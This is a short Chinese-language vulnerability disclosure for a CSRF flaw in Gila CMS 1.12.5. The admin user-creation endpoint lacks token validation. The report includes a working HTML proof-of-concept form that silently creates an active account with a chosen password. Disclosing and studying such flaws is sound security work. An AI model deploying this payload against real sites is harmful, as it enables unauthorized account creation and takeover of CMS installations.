

## Gila CMS 1.12.5 CSRF 漏洞

### 一、漏洞摘要
> 漏洞名称：Gila CMS 1.12.5 CSRF 漏洞
>
> 上报日期：2020-05-14
>
> 漏洞发现者：laot
>
> 版本：V1.12.5

### 二、漏洞概述
后台添加管理员处没有进行token验证，导致csrf漏洞的发生，构造对应的exp可导致添加用户。

文件:/src/core/controllers/cm.php



构造如下代码，保存为html文件并打开，将成功触发漏洞。
```
<html>
  <body>
    <form action="http://gila.test/cm/update_rows/user" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="test01" />
      <input type="hidden" name="email" value="test01&#64;qq&#46;com" />
      <input type="hidden" name="pass" value="123456" />
      <input type="hidden" name="active" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
